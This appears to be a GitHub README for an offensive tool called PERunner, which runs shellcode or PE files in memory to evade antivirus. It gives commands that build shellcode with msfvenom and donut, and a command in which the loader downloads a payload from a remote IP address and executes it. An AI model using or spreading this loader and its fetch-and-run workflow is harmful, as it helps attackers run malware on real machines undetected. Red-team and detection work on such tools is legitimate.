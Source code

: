 # PERunner
Runs RAW or PE file in memory, avoiding AV.
First generate RAW with shellcoding.py (Requires https://github.com/TheWover/donut in current directory). 
Example of usage:

`python3 shellcoding.py -t msf -p 'msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f raw'`

`python3 shellcoding.py -t pe -p your_exe_not_in_golang.exe `

Next run pe.exe with -u params and path the url to result.bin

`pe.exe -u http://10.10.10.10/result.bin`
